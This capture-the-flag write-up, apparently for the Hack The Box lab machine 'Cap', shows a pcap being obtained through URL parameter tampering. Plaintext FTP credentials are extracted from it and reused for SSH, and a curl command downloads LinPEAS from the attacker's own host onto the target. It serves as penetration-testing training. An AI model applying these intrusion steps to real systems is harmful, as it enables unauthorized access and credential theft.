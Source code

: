 **Web Enumeration**

Navigated to http://10.10.10.245 and discovered what appeared to be a SIEM dashboard. Looking at some different pages it looks like each one contains network information about the machine in the form of outputs of certain commands like `ipconfig` and `netstat`, however, there is also a page which contains details of the packets sent on that machine for a particular user on the machine. When we visit the site we are the user Nathan so it's likely that this page represents a pcap specifically for the user Nathan.  

We can download the pcap although there is no information in the pcap, but we notice that everytime we re-vists the page the path parameter changes, we can probably change this ourselves to get different pcaps.   

![cap_2.png](cap_2.png)   

After I visited the page multiple times I noticed that it only increments and decrements between [1, 3], and when we change it to something like 4 or 5 it redirects to the home page. However, changing it to 0 we get a pcap with some data which we can download.  

![cap_3.png](cap_3.png)   

Analysing the pcap file in wireshark and looking at the packet statistics (which I always like to do first to get an idea where to start looking) we see that it's all TCP packets with some being HTTP and some being FTP, lets start with the HTTP  

There's only 5 packets with HTTP and none of them contained any useful information:  

![cap_4.png](cap_4.png)   

Moving on to FTP, we immediately see something significant:  

![cap_5.png](cap_5.png)    

We obtain the FTP credentials  `nathan:Buck3tH4TF0RM3!`.  

## Initial Foothold  

We try them with ssh first to see if they're also ssh credentials and we manage to obtain an ssh shell on the machine giving us the user flag:  

![cap_6.png](cap_6.png)  

The first thing I like to do after gaining access is checking what commands we can run with higher privileges using `sudo -l` but there isn't anything we can run with sudo privileges. So we just resort to running `LinPEAS.sh`. The machine doesn't have internet access so we send it from our local machine using the following commands:  

From our local machine in the directory with `LinPEAS.sh`:  
`python -m http.server`  

From the ssh shell on the target machine:  

 (Remember to use your IP on the VPN network)  
`curl -o linpeas.sh http://<YOUR-IP>:8000/linpeas.sh`  

